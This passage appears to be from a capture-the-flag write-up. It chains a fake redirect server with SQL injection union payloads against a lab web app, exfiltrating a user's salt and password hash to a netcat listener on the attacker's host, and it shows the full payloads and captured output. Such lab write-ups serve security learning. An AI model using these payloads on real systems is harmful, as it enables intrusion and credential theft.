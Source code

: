 ```bash
#first we fire the fake redirection
➜  sudo python3 redirect.py --url "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,1,(select/**/salt/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--" --port 80 --ip 0.0.0.0

#then we launch our netcat listener
➜  netcat -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.176 49490
POST / HTTP/1.1
Host: 10.10.16.6:4444
Accept: */*
Content-type: application/json
Content-Length: 738

{"webhookUrl":"http:\/\/10.10.16.6:4444","monitoredUrl":"http:\/\/10.10.16.6","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"sO3XIbeW14\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/1\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.6","Date":"Sat, 07 Jan 2023 06:31:24 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/1,1,(select\/**\/salt\/**\/from\/**\/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"174"}}

```

With the command above we got some information :

```bash
username: susanne
avatar: 1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce

username: s03XIbeW14
avatar: 1.gravatar.com\/avatar
```

Let’s go and get the passwords from the db

```bash
#The injection
➜  sudo python3 redirect.py "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,1,(select/**/passwd/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--"

#The result
nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.176 43932
POST / HTTP/1.1
Host: 10.10.16.6:4444
Accept: */*
Content-type: application/json
Content-Length: 830

{"webhookUrl":"http:\/\/10.10.16.6:4444","monitoredUrl":"http:\/\/10.10.16.6","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/1\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.6","Date":"Sat, 07 Jan 2023 06:50:47 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/1,1,(select\/**\/passwd\/**\/from\/**\/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"264"}}
```
